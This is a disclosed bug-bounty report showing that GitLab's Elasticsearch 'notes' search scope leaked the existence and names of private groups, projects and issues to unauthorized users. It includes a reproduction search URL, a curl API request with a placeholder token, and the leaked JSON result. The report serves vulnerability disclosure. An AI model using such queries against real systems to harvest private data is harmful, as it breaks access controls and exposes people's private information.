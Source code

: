 # Elasticsearch leaks data through the notes scope

## Report Details
- **Report ID**: 710006
- **URL**: https://hackerone.com/reports/710006
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-10-08T21:45:57.718Z
- **Disclosed**: 2020-10-06T21:57:20.940Z

## Reporter
- **Username**: rpadovani
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary

The Elasticsearch results, when filtering using the `notes` scope, leaks data about private groups, private projects, and private issues.

### Steps to reproduce

1. Search, as an anonymous user, `nextbit` in the Gitlab group, filtering for "comments" ([link](https://gitlab.com/search?group_id=9970&repository_ref=&scope=notes&search=nextbit&snippets=))
2. You will have as result a private note saying `Riccardo Padovani mentioned in nextbit/virtualcore/gui#109` (see screenshot). This basically leaks information about the existence of a private group, a private subgroup, a private project, the ID of an issue in the project, and a membership of the project. 3. You can also retrieve more data through the APIs:

```
19:55:18 in ~ 
➜ curl "https://gitlab.com/api/v4/projects/278964/search?scope=notes&search=nextbit" --header "PRIVATE-TOKEN: TEST" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   520  100   520    0     0    508      0  0:00:01  0:00:01 --:--:--   508
[
  {
    "id": 215547575,
    "type": null,
    "body": "mentioned in issue nextbit/VirtualCore/gui#109",
    "attachment": null,
    "author": {
      "id": 16048,
      "name": "Riccardo Padovani",
      "username": "rpadovani",
      "state": "active",
      "avatar_url": "https://secure.gravatar.com/avatar/9d89d4072afb4457b0c49131d8d258f5?s=80&d=identicon",
      "web_url": "https://gitlab.com/rpadovani"
    },
    "created_at": "2019-02-19T12:54:23.670Z",
    "updated_at": "2019-02-19T12:54:23.670Z",
    "system": true,
    "noteable_id": 24685040,
    "noteable_type": "Issue",
    "resolvable": false,
    "noteable_iid": 25362
  }
]
``` 

The token used is from another account, whom doesn't have access to `nextbit`, or doesn't have any relation with the mentioned issue. It is necessary 'cause search APIs can be used only by logged users.

The ID of the project where we perform the search is the Gitlab one.

### Impact

Elasticsearch doesn't properly authorize access to the notes in search results, so there are leaks of private data, given the right search query.

### Output of checks

This bug happens on GitLab.com

## Impact

Elasticsearch doesn't properly authorize access to the notes in search results, so there are leaks of private data, given the right search query

## Attachments
- Screenshot_2019-10-08_nextbit___Search.png
